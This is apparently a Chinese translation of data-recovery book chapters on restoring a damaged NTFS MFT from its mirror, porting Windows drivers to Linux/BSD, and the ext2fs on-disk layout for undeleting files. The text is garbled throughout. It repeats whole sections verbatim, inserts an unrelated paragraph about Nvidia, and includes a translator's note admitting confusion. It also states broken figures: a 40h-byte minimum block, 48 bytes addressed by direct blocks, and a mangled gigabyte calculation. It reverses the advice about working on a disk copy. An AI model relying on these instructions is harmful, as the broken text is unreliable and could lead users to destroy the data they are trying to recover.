

# 第二部分：自动与手动硬盘数据恢复

不要慌。尝试运行 `DiskExplorer` 查看显示的内容。磁盘内容不太可能丢失。如果至少部分文件记录幸存了这场灾难，那么 R-Studio、`GetDataBack` 和 EasyRecovery 等工具将无一失地恢复它们。


分析表明，`ChkDSk` 拒绝检查卷的主要原因是文件记录损坏。如果计算机在更新 `MFT` 的过程中断电，这种结果非常有可能，特别是硬盘具有大缓存时。通常，磁盘无法利用电容器中积累的能量完成扇区——与以前不同。当 `MFT` 文件移动未成功或 `MFT` 被破坏时也会发生这种情况。在所有情况下，`MFT` 镜像保持完好；然而，`ChkDSk` 出于未知原因拒绝它。因此，你必须手动恢复 `MFT`。要实现这一点，只需将 `MFTMirror` 的第一个扇区复制到 `MFT` 的第一个扇区。`Inspector` 用户可以使用列表 7.2 所示的批文件（其中 `XXX` 是 `MFTMirror` 的编号，`YYY` 是 `MFT` 的编号）。

### 列表 7.2. 从镜像手动恢复 MFT 的批文件

```
SECINSPECT.EXE -backup   d: backup.dsk XXX 1
SECINSPECT.EXE -restore  d: backup.dsk YYY CONFIRM
```

现在，如果运行 `ChkDSk` 仍然不起作用，这意味着引导区已损坏（引导区恢复在上一章中介绍过）、`$MFT:DATA` 文件的运行列表与 `MFT` 起始不匹配（要解决这个问题，找到包含 `MFT` 文件记录的扇区，并修正引导区中与实际物理大小不同的簇大小（确定真实簇大小的技术刚刚介绍过））。

## 第 7 章：NTFS 数据恢复 189

`$MFT:DATA` 文件（如果它在灾难中幸存）。剩余的任务取决于你的实际技能。

关于丢失数据恢复的描述已接近逻辑终点。然而，`NTFS` 仍在以快速速度演进。尽管最近引入的修改纯粹是外观上的，但微软承诺在 Windows `Longhorn` 中引入根本性的变化。微软正在积极开发一种新的文件系统——Windows 文件系统（Windows File System），简称 `WinFS`。尽管如此，它的最终发布日期不断推迟（毕竟，开发一个新的文件系统是一项严峻的工作）。

根据微软服务器和工具业务高级副总裁 `Bob Muglia` 的说法，使用结构化查询语言 (`SQL`) 和可扩展标记语言 (`XML`) 扩展对修改后的 `NTFS` 版本进行查询。目前，用户社区还不清楚文件系统的基础结构将如何发生变化。尚不清楚为什么 `NTFS` 需要关系型 `SQL`，因为这些能力最初是计划在计划内的（只是这些功能的全功能实现被推迟了）。任何系统程序员都可以轻松地编写一个接受 `SQL` 或 `XML` 查询的驱动程序，并将其转换为对当前文件系统驱动程序的请求。在 `NTFS` 内部改变任何东西并没有实际需求。因此，在我看来，这仅仅是促使用户迁移到 `Longhorn` 的营销手段。

另一方面，`NTFS` 的进一步开发将受到欢迎。对于数据恢复领域的所有专家来说，这是一个强有激励，因为所有现有工具都可能与新文件系统不兼容。

## 格式化为 FAT16/32 后 NTFS 分区的恢复

在重新格式化磁盘时，Windows NT 系列的操作系统从未更改文件系统类型（除非用户显式指定这样做）；因此，将 `NTFS` 分区无意格式化为 `FAT16/32` 是极不可能的。相反，Windows 9x 和 `MS-DOS` 倾向于将每个磁盘格式化为 `FAT16/32`，而没有注意到磁盘已经包含了内容。因此，在 Windows NT 之上安装 Windows 9x/`MS-DOS` 时，无意格式化 `NTFS` 分区并非罕见事件。至少第二代用户持续地-

# 第二部分：自动与手动硬盘数据恢复

在这种情况下，数据恢复策略通常与针对 `NTFS` 分区的 `NTFS` 恢复类似。唯一的例外是 `MFT` 记录将不可恢复地丢失（尽管根据本章，可以进行手动恢复）。

对于 `MFT` 幸存的文件，可以使用 `R-Studio`、`GetData` 或 `EasyRecovery` 轻松恢复。如果你想恢复一个卷，首先确定簇的数量，然后重新格式化它。按照以下步骤操作：增加 `MFT` 大小，运行 `chkdsk` 并收集所有内容。因为磁盘通常包含数百万个文件，第一个簇的丢失是毁灭性的。

## 丢失原因

为什么磁盘会丢失？以下是最常见原因列表，按流行程度从高到低排列：

- 人为错误、病毒和其他恶意软件
- 在添加或删除文件过程中发生的意外断电、系统冻结
- `RAM` 的物理缺陷导致磁盘损坏
- 各种驱动程序的错误行为

## 有用提示

为了防止磁盘损坏并简化恢复程序，建议采取以下措施：

- 将 `MFT` 尽可能远离起始位置。避免 `MFT` 碎片化；不要让其填充超过容量的 90%。
- 定期创建 `MFT` 记录的备份副本。为了执行此任务，请将 `MFT` 保存在单独的磁盘上。不要定期更新它，因为在添加新文件和目录的过程中，`MFT` 会不断扩展。

## 第 7 章：NTFS 数据恢复 191

`MFT` 是 `NTFS` 文件系统中最重要的部分。它包含了有关卷上每个文件和目录的信息。如果 `MFT` 损坏或删除，数据可能会丢失。然而，有几种方法可以恢复 `MFT`。

第一方法是使用内置的 `chkdsk` 工具。该工具通常可以修复 `MFT` 中的细微错误。但是，如果 `MFT` 受损严重，它并不总是成功的。第二种方法是使用第三方恢复工具。有很多工具可用于此目的，某些工具可以扫描磁盘以寻找丢失的 `MFT` 记录。第三种方法是手动重构 `MFT`。这是一个复杂的过程，需要高级技能。

在磁盘上的多个位置可以找到 `MFT`。如果主 `MFT` 丢失，你可能找到 `MFT` 镜像或其他碎片。

## 格式化为 FAT16/32 后 NTFS 分区的恢复

在重新格式化磁盘时，Windows NT 系列的操作系统从未更改文件系统类型（除非用户显式指定这样做）；因此，将 `NTFS` 分区无意格式化为 `FAT16/32` 是极不可能的。相反，Windows 9x 和 `MS-DOS` 倾向于将每个磁盘格式化为 `FAT16/32`，而没有注意到磁盘已经包含了内容。因此，在 Windows NT 之上安装 Windows 9x/`MS-DOS` 时，无意格式化 `NTFS` 分区并非罕见事件。至少第二代用户持续地-

# 第二部分：自动与手动硬盘数据恢复

在这种情况下，数据恢复策略通常与针对 `NTFS` 分区的 `NTFS` 恢复类似。唯一的例外是 `MFT` 记录将不可恢复地丢失（尽管根据本章，可以进行手动恢复）。

对于 `MFT` 幸存的文件，可以使用 `R-Studio`、`GetData` 或 `EasyRecovery` 轻松恢复。如果你想恢复一个卷，首先确定簇的数量，然后重新格式化它。按照以下步骤操作：增加 `MFT` 大小，运行 `chkdsk` 并收集所有内容。因为磁盘通常包含数百万个文件，第一个簇的丢失是毁灭性的。

## 丢失原因

为什么磁盘会丢失？以下是最常见原因，按流行程度从高到低排列：

- 人为错误、病毒和其他恶意软件
- 在添加或删除文件过程中发生的意外断电、系统冻结
- `RAM` 的物理缺陷导致磁盘损坏
- 各种驱动程序的错误行为

## 有用提示

为了防止磁盘损坏并简化恢复程序，建议采取以下措施：

- 将 `MFT` 尽可能远离起始位置。避免 `MFT` 碎片化；不要让其填充超过容量的 90%。
- 定期创建 `MFT` 记录的备份副本。为了执行此任务，请将 `MFT` 保存在单独的磁盘上。不要定期更新它，因为在添加新文件和目录的过程中，`MFT` 会不断扩展。

## 第 7 章：NTFS 数据恢复 191

`MFT` 是 `NTFS` 文件系统中最重要的部分。它包含了有关卷上每个文件和目录的信息。如果 `MFT` 损坏或删除，数据可能会丢失。然而，有几种方法可以恢复 `MFT`。

第一方法是使用内置的 `chkdsk` 工具。该工具通常可以修复 `MFT` 中的细微错误。但是，如果 `MFT` 受损严重，它并不总是成功的。第二种方法是使用第三方恢复工具。有很多工具可用于此目的，某些工具可以扫描磁盘以寻找丢失的 `MFT` 记录。第三种方法是手动重构 `MFT`。这是一个复杂的过程，需要高级技能。

在磁盘上的多个位置可以找到 `MFT`。如果主 `MFT` 丢失，你可能找到 `MFT` 镜像或其他碎片。

## 第 7 章：NTFS 数据恢复 192

`MFT` 由许多记录组成。每个记录包含关于一个文件或目录的信息。最重要的记录类型是 `$FILE` 记录，它包含文件名、属性、时间戳和数据指针。其他属性包括 `$DATA`、`$INDEX` 和 `$INDEX_ROOT`。

如果文件很小，其数据可以直接存储在 `MFT` 记录中。如果文件很大，数据存储在 `MFT` 之外的簇。指向这些簇的指针存储在 `MFT` 的 `$DATA` 属性中。

当 `MFT` 损坏时，可能是由于磁盘故障、软件错误或意外删除。在这种情况下，你可能需要修复或恢复 `MFT`。实现此目的的方法是使用 `chkdsk` 工具，它可以尝试修复错误。另一种方法是使用专业扫描工具来恢复 `MFT` 记录。

# 第 8 章：Linux/BSD 下的数据恢复

`NTFS` 是一个 Windows 特有的文件系统。然而，有许多方法可以在 Linux 和 BSD 上读写 `NTFS`。最常用的工具之一是 `NTFS-3g`，它允许对 `NTFS` 分区进行读写。另一个工具是 `fusenfs`，它是一个只读驱动。

如果你需要在 Linux 上从 `NTFS` 分区恢复数据，可以使用 `TestDisk` 或 `PhotoRec` 等工具。`TestDisk` 适用于恢复删除的分区和文件系统结构。`PhotoRec` 用于根据签名恢复单个文件。


在 Linux 或 BSD 上从 NTFS 恢复数据可能比在 Windows 上复杂，但通过正确的工具和技术，可以获得结果。重要的是要小心，不要覆盖任何正尝试恢复的数据。

领导者（通常是大型企业）可以在这一领域赢得竞争——例如英伟达（Nvidia），他们销售数百万视频适配器。对于这类公司来说，即使是极小的市场份额也是令人惊叹的价值。

有一种普遍观点认为，有一支由爱好者组成的军队正在拆解 Windows 驱动程序（获取所需信息的唯一可行方法，因为技术文档并不总是可用），并将其为 Linux 和 BSD 重写它们。与流行观点相反，这样的爱好者并不多。有许多截然不同的设备等待着此类驱动程序的编写。此外，某些驱动程序在作者的电脑上运行正常，但在硬件配置明显类似的其他机器上运行失败的情况并不罕见。编写一个驱动程序是不够的；有必要在许多不同的硬件配置上对其进行调试和测试，并为潜在用户提供技术支持。否则，它将不是一个功能完全的驱动程序；而是一个黑客的玩具。这些行动需要花费时间和精力。因此，如果一个自定义驱动程序仅是为了个人使用而而不是为了商业目的，那么它的可靠性和兼容性远非完美。

构成发行版的专家们承担着海量的工作，收集各种驱动并对其进行编译。然而，测试质量远非完美，即使支持的硬件列表中包含特定设备的条目，这并不意味着该设备在你的机器上就能工作。来自其他模型的驱动程序可能是合适的。然而，同样可能没有任何驱动程序都无法工作。没有驱动程序的运行是忧伤的。

## 模拟器

在安装 Linux/BSD 之前，请考虑以下问题：你真的需要它吗？如果你只需要测试一个替代系统、精通开发工具或编译源代码，虚拟机或模拟器将是最佳选择。这样的模拟器可以是 `VMware`（如图 8.1 所示）。`Fedora Core` 在 `VMware` 上运行很慢（在 `P-III 733` 上，实际上无法进行正经的工作）；然而，这个模拟器可以很满意地运行带有 `KDE` 的 `Debian`。在这个模拟器中工作时，可以开发程序、阅读 `man` 页面或玩游戏，如“星际大战”。在这种情况下，将不需要额外的驱动程序（我的意思是，不需要任何在良好的发行版中不具备的驱动程序）。大多数开发者正是这样做的。任何自尊的 UNIX 程序员都必须安装几十个操作系统克隆，以测试正在开发的程序的兼容性。在用“实体”电脑工作时，切换电脑需要重启。使用虚拟机，可以在不重启宿主机的情况下进行切换（唯一的问题是可用内存）。



图 8.1. 在 Windows 下运行的虚拟 Linux

可以在 Linux/BSD 宿主机系统下运行虚拟 Windows （如图 8.2 所示）。在这种情况下，`VMware` 提供了对 `COM`、`LPT` 和 `USB` 端口的直接访问；因此，将扫描仪、打印机或相机连接到你的机器不会出现任何问题。是 Windows 与这些设备工作。在这种情况下，UN 机器拥有所有的系统资源可供，因此不会有性能下降。然而，会有其他问题。Windows 应用程序（如游戏）要么运行缓慢要么拒绝运行。此外，Windows 将无法与所有其他类型的设备工作，例如集成无线局域网（`WLAN`）或视频适配器。这一切都发生在：

`VMware` 是一个“黑盒”，被模拟器的墙与基础操作系统隔离开来。这太糟糕了，不是吗？如果你能确保虚拟机获得对所有物理安装硬件的完全访问会怎样？准备好！我要恰恰地描述这种方法。



## 从 Windows 和 Linux/BSD 移植驱动程序

考虑一个尚未回答的简单问题。众所周知，对 NTFS 分区的支持是一个严重问题。能够向 NTFS 分区写入数据的驱动程序最近才出现，仅在各种会议和展览上因其美丽和壮丽脱颖而出。它们很难适用于现实操作，因为它们的运行不稳定，并且具有局限性。例如，压缩文件、事务以及许多其他问题尚未得到支持。此外，NTFS 开发者并没有休息；因此，文件系统本身不断演进（换句话说，它是变化的）。问题是：理论上是否可能写出一个完全兼容的 NTFS 驱动程序，在没有程序员参与的情况下正确解释新的 NTFS 版本？这个问题并没有初看起来看起来那么愚蠢。既然已经有一个现成的驱动程序——`nfs.sys`，我们为什么需要花费时间和精力呢？如果你让它在 Linux 下运行，所有问题都将自动解决。

对这种方法的反对意见（即 Linux/BSD 在内核层面与 Windows 大不同）在这里并不适用。这里存在巨大的差异；然而，也有共同特征。Windows、Linux 和 BSD 都在保护模式下运行 x86 处理器，使用虚拟内存，并与硬件交互（通过严格定义的机制）。高层驱动程序（如 `ntfs`）仅包含系统相关的代码且从不与硬件交互。为什么为一个系统编写的驱动在其他系统中无法运行？主要是因为驱动程序和操作系统之间的界面在每情况下都是不同的。

将 Windows 移植到 Linux/BSD 是一个可行的任务。为了实现这一点，需要在驱动程序和操作系统之间编写一个简单的“存根”（stub），它可以接收查询，根据系统规则进行翻译，并移植驱动所需的函数库。实现这一目标需要编程技能。对于大多数用户来说，这是不可行的，且无能为。对于程序员来说，移植现有驱动程序比从头开始写一个容易得多。为了实现这个目标，你不需要费力地反汇原始代码（这取代了对技术文档的寻找）。通常，技术文档不可或在你签署了禁止发行源代码的协议后才会提供。此外，当 Windows 驱动程序的新版本发布时，更新 Linux/BSD 驱动程序的程序被大大简化，通常简化为覆盖文件。然而，这仅仅是理论上。现在，是时候对该问题进行详细建模。

Windows NT 及其所有后续版本（包括 Windows 2000、XP、2003 和 Longhorn）的内核模型非常简单（如图 8.3 所示）。内核通过连接到 `ntdll.dll` 的系统服务管理器与“外部”世界通信，`ntdll.dll` 位于内核之外并在用户模式下执行。


在 `ntoskrnl.exe` 中实现的系统服务管理器依赖于可调用的内核接口，部分实现在 `ntoskrnl.exe` 内部，另一部分实现在外部驱动程序中——特别是电源管理模块。某类驱动程序（称为设备驱动和文件系统驱动程序）被封装在一个壳中，通过 `ntoskrnl.exe` 中实现的输入/输出管理器与系统调用管理器交互。

系统支持进程

服务进程

应用程序



图 8.3. Windows 内核内部

# 第8章：Linux/BSD 199 环境下的数据恢复

内核是基础，所有之前提到的组件都基于此构建。它是一个集中在 `ntoskrnl.exe` 中的一组低级函数。在内核之下，只有硬件抽象层（HAL）。曾几何时，微软计划将内核分为依赖于系统和独立于系统的部分，以简化将 Windows 移植到其他平台的处理工作。然而，到 Windows NT 4.x 时，情况已经变得非常混乱，许多依赖于系统的函数被移动到了 `ntoskrnl.exe`。HAL 正在逐渐被弃用，虽然缓慢但不可避免。现在只剩下少数直接与硬件（例如通过端口和 DMA）通信的真正低级函数。不过，在 Linux/BSD 内核中，有专门处理 DMA 的函数；因此，不需要直接移植 HAL。如果你还记得 Windows 驱动程序并不直接与 DMA 通信。所有此类通信都是通过位于 `ntoskrnl.exe` 中的即插用管理器（Plug and Play manager）完成。

关于输入/输出端口，考虑列表 8.1 中的示例。该列表展示了 `READ_PORT_UCHAR` 函数的反汇编代码，该函数从给定的端口读取一个无符号字节。

### 8.1. HAL 中 READ_PORT_UCHAR 函数的反汇编列表

```
.text:80015A2C
.text:80015A2C              public READ_PORT_UCHAR
.text:80015A2C READ_PORT_UCHAR proc near ; CODE XREF: HalGetEnvironmentVariable + 2Cip
.text:80015A2C                      ; HalSetEnvironmentVariable + 3Dip
.text:80015A2C
.text:80015A2C
.text:80015A2C arg_0          = dword ptr  4
.text:80015A2C
.text:80015A2C              xor eax, eax
.text:80015A2E              mov, [esp + arg_0]
.text:80015A32              in al, dx
.text:80015A33              retn  4
.text:80015A33 READ_PORT_UCHAR endp
```


如果你能让 `ntoskrnl.exe` 在外国环境（如 Linux 或 BSD）中运行，你就能在不修改其二进制代码的情况下运行任何 Windows NT 驱动程序。这不仅简化了移植过程，还解决了版权问题。任何 Windows（或其他任何程序）正版拷贝的所有者都有权从任何环境调用即插即用的驱动程序，而无需任何许可或支付额外费用。用户不太可能被允许修改二进制代码。

然而，我并没有催促你修改任何内容。只需要 `ntoskrnl.exe` 即可。所有其他操作都是微不足道的。只需将它映射到 PE 文件头中的地址（回想一下 `ntoskrnl.exe` 是一个普通的 PE 文件），并学习驱动程序使用的导出表（export table）的细节。换句话说，有必要实现自定义的 PE 加载器并将其构建到加载内核模型或内核中。为了避免额外工作，可以依靠 Windows 模拟器（Wine）并使用它的加载器。

`ntoskrnl.exe` 文件与 Linux/BSD 内核之间的交互将通过“存根”（stub）进行，这是模拟 HAL 的代码。这些代码你必须自己实现。然而，这里并没有什么困难的；HAL 的函数不多，而且包含的那些都很简单。更困难的任务是组织系统管理器与外部世界（在这种情况下是 Linux/BSD）之间的通信。主要问题是该管理器的接口没有文档记录，并且不断变化。该管理器的接口是未记录的且处于不断变化之中。因此不仅需要 `ntoskrnl.exe`，还需要 `ntoskrnl.exe`。（注：此处原文似乎存在多处重复或逻辑混乱，译文已根据语意微调以保持逻辑通顺）。

## 即插即用示例

我不知道移植到 Linux/BSD 的 Windows 驱动程序的具体示例，但有一个著名的项目——由 Mark Russovich 开发的 NTFS for DOS。它可以从 [http://www.doswin32.com:8080/index_en.html](http://www.doswin32.com:8080/index_en.html) 获取，对于非商业用途它是免费的。这个扩展程序能够在原生 DOS 下运行 Windows 应用程序。所有必要的内容都可以装进一个软盘中。

### 8.2. 第一个 NTFS for DOS 的内容

| 文件 | 大小 |
| :--- | :--- |
| ntoskrnl.exe | 904 KB |
| ntdll.dll | 665 KB |
| nfsspro.exe | 465 KB |
| c866.gz | 309 KB |
| 文件夹 | |

### 8.3. 第二个 NTFS for DOS 的内容

| 文件 | 大小 |
| :--- | :--- |
| ntoskrnl.exe | 748 KB |
| ntdll.dll | 219 KB |
| nfsspro.exe | 367 KB |
| c437.gz | 492 KB |
| 文件夹 | |

因此，为 Linux/BSD 写一个驱动程序外壳是一个切行的任务，它并没有什么神秘的。你只需要创建它一次，之后就可以在它下面运行任何驱动程序。顺便说一下，这是一个非常有趣的黑客任务。为什么不在 http://www.sourceforge.net 上建立一个新项目，组织一个小组，并合作创作出一些有价值的东西呢？这才是真正的黑客精神！

## 在 Ext2fs 或 Ext3fs 下恢复被删除的文件

每个人都至少删除过一个珍贵的文件（甚至是根目录）。假设你执行了这一操作，但既没有备份副本，也没有时间去寻找合适的恢复工具。你该怎么办？幸运的是，执行恢复所需的所有内容已经包含在你最喜爱的发行版集合中了，而且随手可及。简而言之，这些工具是 `debugfs`、`isdl`、`stat`、`cat`、`dump` 和 `undef`。如果你对这个主题有任何方面的需要方面的说明或澄清，请阅读本节，本节解释了在 ext2fs 和部分 ext3 分区上进行数据恢复的过程。

关于 Linux 数据恢复的信息非常匮乏。看起来 Linux 的粉丝似乎从不会丢失数据，事实并非如此。误删文件是一种常见现象；在 Linux 世界，这种情况发生的频率可能比在 Windows 下更高。在 Windows 中，大多数文件操作是通过 Windows 资源管理器或 FAR Manager 等交互式工具手动完成的。Linux 也提供了交互式环境，如 KDE、GNOME 和 Midnight Commander。然而，在这个世界里命令行文件多得多。命令行正则表达式和脚本——换句话说，自动化控制工具——既方便强大又具有破坏性。设计中只要有一点微小的错误或疏忽，就可以和你的文件永别了。

文件偶尔会“死亡”，而且往往在乎意之外发生。这是无法预测的；因此，管理员必须保持警惕。在某些情况下，几秒前一切还正常，随后几百 GB 的重要信息就丢失了，这种情况并不罕见。之后，你将尽全力尝试恢复所有可以保存的内容。

文件系统驱动程序源代码的可用极大简化了对其内部机制的调查。由于文件系统结构的简单，在 ext2fs 或 ext3fs 上恢复数据是一项简单的任务。FreeBSD 文件系统（如 UNIX 文件系统和快速文件系统）要复杂得多，且文档记录较少。尽管如此，FreeBSD 在 UNIX 兼容操作系统世界中扮演着最重要的角色之一，其下的数据破坏也经常发生。幸运的是，在大多数情况下，丢失的信息可以完全恢复。

## 准备恢复数据

首先，有必要卸载磁盘分区，或者至少将其重新挂载为只读模式。尝试修复活动的分区通常只会扩大破坏规模。如果要恢复的文件位于主系统分区，你有两种方法可以进行——要么从 Live Linux CD 启动，要么将正在恢复的磁盘作为第二个硬盘安装在 Linux 机器上。

为了避免进一步的破坏，永远不要在磁盘副本上进行编辑。可以使用 `cp /dev/sdb1 my_dump` 命令创建这样的副本，其中 `sdb1` 是设备名称，`my_dump` 是 dump 文件的名称。dump 文件可以放置在任何空闲分区上，甚至可以通过网络复制到另一台机器。所有的磁盘工具（`lde`、`debugfs`、`fsck`）都不会察觉到技巧，并会像处理位于“正常”分区上的文件一样处理该文件。如有必要，甚至可以使用 `mount dump_point -o loop` 将其挂载到文件系统，以确保恢复成功。`cp my_dump /dev/sdb1` 命令将恢复的 dump 复制回分区——尽管没有必要这样做。只复制正在恢复的文件要容易且安全得多。

## 在 Ext2fs 下恢复被删除的文件

ext2fs 文件系统仍然是大多数大多数 Linux 版本的基础文件系统；因此，首先考虑它。它所基于的概念在许多方面与 NTFS 相似，因此从 NTFS 迁移到 ext2fs 时不会经历文化冲击。关于数据存储结构的详细描述可以在《第二代扩展文件系统的设计与实现》论文中找到（参见本节的“推荐阅读”），也可以在 Andrew Tanenbaum 编写的《操作系统：设计与实现》书中找到，该书的电子版可以在 e-Donkey 上找到。磁盘工具（如文件系统驱动程序、`lde` 和 `debugfs`）的源代码也会有所帮助。

## 文件系统结构

为 ext2fs 格式化的磁盘卷结构如列表 8.4 所示。硬盘的开头是引导扇（在不可引导的分区上，它可能是空的）。紧随其后，在 1024 字节偏移量处是超级块，它包含了关于文件系统的关键信息。（在 FAT 和 NTFS 分区上，这些信息直接存储在引导扇中。）我们感兴趣的区域是位于超级块起始偏移 18 字节处的 `s_log_block_size` 32 位字段。该字段存储了块大小（在 MS-DOS 和 Windows 术语中称为簇大小），其表示形式为指向 200h 数字必须移动的位置的指针。用自然单位表示如下：`block_size = 200h << s_log_block_size`（字节）。这意味着如果 `s_log_block_size` 等于零，那么一个块的大小为 40h 字节。

### 列表 8.4 为 ext2fs 格式化的磁盘卷结构

| 偏移量 | 大小 |  |
| --- | --- | --- |
| 0 | 1 | 引导扇 |
| -- group 0 -- | 1 | 组0 |
| (1024 字节) | 1 | 超级块 |
| 2 | 1 | 分组描述符 |
| 3 | 1 | 块位图 |
| 4 | 1 | 节点位图 |
| 5 | 214 | 节点表 |
| 6 | 7974 | 数据块 |
| -- group 1 -- | 1 | 组1 |
| 8193 | 1 | 超级块备份 |
| 8194 | 1 | 分组描述符备份 |
| 8195 | 1 | 块位图 |
| 8196 | 1 | 节点位图 |
| 8197 | 214 | 节点表 |
| 8408 | 7974 | 数据块 |
| -- group 2 -- | 1 | 组2 |
| 16385 | 1 | 块位图 |
| 16386 | 1 | 节点位图 |
| 16387 | 214 | 节点表 |

### 列表 8.5 节点表示格式

| 偏移量 | 大小 | 描述 |
| --- | --- | --- |


| 0 | 2 | `i_mode`; 表示格式 |

| 2 | 2 | `i_uid`; 用户 ID (UID) |

| 4 | 4 | `i_size`; 以字节计的文件大小 |

| 8 | 4 | `i_atime`; 最后访问时间 |

| 12 | 4 | `i_ctime`; 文件创建时间 |

| 16 | 4 | `i_mtime`; 文件修改时间 |

| 20 | 4 | `i_dtime`; 文件删除时间 |

| 24 | 2 | `i_gid`; 组 ID (GID) |

# 第二部分：自动与手动硬盘数据恢复

| 偏移量 | 大小 | 说明 |
| :--- | :--- | :--- |
| 26 | 2 | `i_links_count` 文件的引用次数 (0 - 已删除) |
| 28 | 4 | `i_blocks` 属于文件的块数 |
| 32 | 4 | `i_flags` 各种标志 |
| 36 | 4 | `i_osdl` 取决于操作系统的值 |
| 40 | 12 x 4 | `i_block` 12 个直接块（指向文件前 12 个块的引用） |
| 88 | 4 | `i_iblock` 1 个间接块 |
| 92 | 4 | `i_2iblock` 2 个间接块 |
| 96 | 4 | `i_3iblock` 3 个间接块 |
| 100 | 4 | `i_generation` 文件生成数（用于 NFS） |
| 104 | 4 | `i_file_acl` 外部属性 |
| 108 | 4 | `i_dir_acl` 扩展 |
| 116 | 12 | `i_osd2` 取决于操作系统的结构 |

文件占用的前 12 个块直接存储在 inode 的 `DIRECT BLOCKS` 数组中（直接块已加粗以使列表更直观）。每个数组元素都是一个 32 位的块号。假设 `BLOCK SIZE` 的平均值为 4 KB，`DIRECT BLOCK` 可以寻址 4*12=48 字节的数据。如果文件超过了此大小，就会创建一个或多个间接引用块（`INDIRECT BLOCK`）。间接块的层级结构如图 8.6 所示。第一个间接块（1x INDIRECT BLOCK 或简单的 `INDIRECT BLOCK`）存储对其他间接块的引用。其地址存储在 inode 的 `i_indirect_block` 字段中。经计算，它可以访问约 `BLOCK SIZE/sizeof(DWORD) * BLOCK SIZE = 4096/4*MB` 的数据。如果还不够，则会创建第二个间接块（2x INDIRECT BLOCK 或 `DOUBLE INDIRECT BLOCK`），它存储指向间接块的指针，允许你寻址 `(BLOCK_SIZE/sizeof(DWORD))**2*BLOCK_SIZE=4096/4**=44 GB` 的数据。如果这样还不够，就会创建三级间接块（3x INDIRECT BLOCK 或 `TRIPLE INDIRECT BLOCK`），它包含了对双级间接块的引用。

# 第 8 章：Linux/BSD 下的数据恢复

